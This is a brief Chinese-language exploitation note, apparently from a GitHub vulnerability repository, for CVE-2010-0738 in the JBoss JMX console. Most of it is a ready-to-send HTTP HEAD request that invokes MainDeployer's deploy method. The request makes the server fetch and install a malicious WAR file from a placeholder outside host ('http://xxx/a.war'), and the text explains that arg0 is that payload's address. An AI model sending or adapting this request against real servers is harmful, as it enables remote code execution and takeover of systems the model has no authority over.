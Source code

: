 CVE-2010-0738
--

### 利用方法


```
HEAD /jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.system:service=MainDeployer&methodName=deploy&argType=java.lang.String&arg0=http://xxx/a.war HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.81 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close


```
![](assets/burp_poc.png)

其中arg0为恶意war包的线上地址。
